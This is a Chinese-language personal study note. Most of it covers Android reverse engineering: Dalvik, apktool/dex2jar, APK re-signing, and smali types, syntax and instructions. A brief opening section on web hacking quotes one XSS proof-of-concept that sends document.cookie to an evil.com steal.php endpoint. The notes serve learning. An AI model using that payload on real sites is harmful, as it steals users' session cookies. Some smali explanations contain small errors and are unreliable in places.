 # 学习笔记
## 1. Web前端黑客技术揭秘
### POC理解&学习
1. XSS获取敏感信息：eval(‘new Image().src=“http://www.evil.com/steal.php?c=“+escape(document.cookie)')

## 2. Android逆向学习
### 基础知识
1. Davlik Android OS的虚拟机，Dalvik基于寄存器，Java VM基于栈，二者明显区别。Davlik专属文件执行格式dex，比Java JVM运行快，内存占用少。
2. 反编译 Apktool、dex2jar+jd-gui，最终修改APK需要操作.smali文件，然后再使用Apktool将修改的文件打包成APK，再使用 jarsigner进行APK签名：jarsigner -keystore name.keystore Folder keystorealias -keypass passwd
3. Davlik中寄存器32位，64位类型（Long/Double）用2个寄存器表示，字节码2中类型：原始类型、引用类型（包括对象和数组）
	- B- - -byte
	- C- - -char
	- D- - -double
	- F- - -float
	- I- - -int
	- J- - -long
	- S- - -short
	- V- - -void
	- Z- - -boolean
	- [XXX- - -array
	- Lxxx/yyy- - -object : LpackageName/objectName$subObjectName;
4. smali函数
	1.  hello()V —\> void hello()
	2. hello(III)Z —\> boolean hello(int,int,int)
	3. hello(Z[I[ILjava/lang/String;J)Ljava/lang/String; —\> String hello(boolean,int[],int[],String,long)
5. Smali基本语法
	1. .field private isFlag:z   定义变量  
		.field button\_login:Landroid/widget/Button;
	2. .method  方法
		.method protected onCreate(Landroid/os/Bundle;)V  
	3. .parameter  方法参数
		.param p1, "name"    # Ljava/lang/String;
	4. .prologue  方法开始
	5. .line 36   此方法位于36行
	6. Invoke-super  调用父函数
	7. Return-void  函数返回void
	8. Move-result v0   上面函数执行的结果赋值给v0
	9. .end method 函数结束
	10. New-instance 创建实例
	11. Input-object  对象赋值
	12. Iget-object  调用对象
	13. Invoke-static  调用静态函数
	14. Invoke-virtual  调用函数
		invoke-virtual {p1, v0}, Ljava/lang/String;-\>equals(Ljava/lang/Object;)Z  
	15. Const-string  string赋值
		const-string v0, "snow"
6. smali的条件分支
	1. If-eq vA,vB,:cond\_\*\* 如果vA和vB相等，则跳转至cond\_\*\*  
	2. If-ne（不等于）、if-lt（小于）、if-ge（大于等于）、if-gt（大于）、if-le（小于等于）
	3. If-eqz v0:cond\_\*\* 如果V0等于0，则跳转至cond
	4. If-nez（不等于0）、if-ltz、if-gtz、if-gez、if-lez
7. 类的声明：
	.class public Lcom/aaaa;
	.super Lcom/bbbb;
	.source “ccc.java”
	包路径、父类、文件名称
	\#annotations 
	.annotation system Ldalvik/annotation/MemberClasses;
	value={
	Lcom/aaa$qq;
	Lcom/aaa$bb;
	}
	内部类：aaa类的两个成员内部类qq和bb；
8. 寄存器V开头的是指本地寄存器，P开头的是指参数寄存器，对于非static函数中,P0代表“this”，P1代表第一个参数，而在static函数中，P0代表第一个参数。
	const/4 v0,0x1
	input-boolean v0,p0,Lcom/aaa;-\>IsRegistered:Z 
	0x1放入本地寄存器v0，input-boolean将v0的值存放在com.aaa.IsRegistered变量中。
9. 成员变量：
	1. .field public/private [static] [finale] varName:\<类型\> 
	2. 不同的变量，不同的指令：iget、sget、iget-boolean、sget-boolean、iget-object、sget-object等；input、input-boolean、sput-boolean、iput-object、sput-object等；-object后缀的表示操作对象是对象类型，对boolean类的操作则使用-boolean。
	3. Sget-object v0,Lcom/aaa;-\>ID:Ljava/lang/String; 获取com.aaa.ID的值放入V0
	4. Iget-object v0,p0,Lcom/aaa;-\>view:Lcom/aaa/view; 此处多了一个参数p0，指的是this，array变量采用aget和aget-object
	5. this.timer=null  
		const/4 v3,0x0
		sput-object v3,Lcom/aaa;-timer:Lcom/aaa/timer;
	6. .local v0, args:Landroid/os/Message;
		 const/4 v1, 0x12
		 input v1, v0,Landroid/os/Message;-\>what:I
		 此处args是Message的实例，args.what=18
10. 函数调用：
	1. 函数分为direct method和virtual method，简单说direct 即private函数，其余的public和protected均属于virtual函数，所以在调用函数时，有invoke-direct、invoke-virtual，另外以及invoke-static、invoke-super、invoke-interface等几种不同的指令，当然还有invoke-XXX/range的指令，这是指参数多余4个的时候调用的指令；
	2. Invoke-static{v0},Ljava/lang/System;-\>loadLibrary(Ljava/lang/String;)V 其中{}中指定函数调用的参数值；
		invoke-direct{p0},Landroid/app/TabActivity;-\>\<init\>()V =\> init()   
		invoke-virtual{v0,v1},Lcom/cc;-\>Message(Ljava/lang/Object;)V  
		invoke-direct/range{v0,…,v5},Lcom/pb/ui/PBContainerActivity;-h(Ljava/lang/CharSequence;Ljava/lang/String;Landroid/content/Intent;l)Z
	3. 在Java代码中，调用函数和返回值可以使用一条语句完成，但是在smali中需要分开来完成，如果返回的非void，需要使用move-result（返回基本数据类型）和move-result-object（返回对象）指令：
		const-string v0,”Eric”
		invoke-static{0},Lcmd/pbi;-\>t(Ljava/lang/String;)Ljava/lang/String;
		move-result-object v2 //v2保存的就是t方法返回的值
	4. 代码理解：
		Add-int/lit8 v0,v0,0x1  //将第二个v0寄存器中的值加上0x1的值，再放入第一个寄存器，实现自增长  
		.locals 4  //本地寄存器4个，即v0,v1,v2,v3,v4
		const/4 v2,0x1  //4字节常量 V2=1
		const/16 v1,0x10 //16字节常量v1=16
		.local v1,”length”:I  //赋值 length=v1 
		xor-int/lit8 v1,v1,0x3b  //将第二个寄存器v1的值和0x3b进行异或运算，赋值给第一个v1寄存器中
11. 
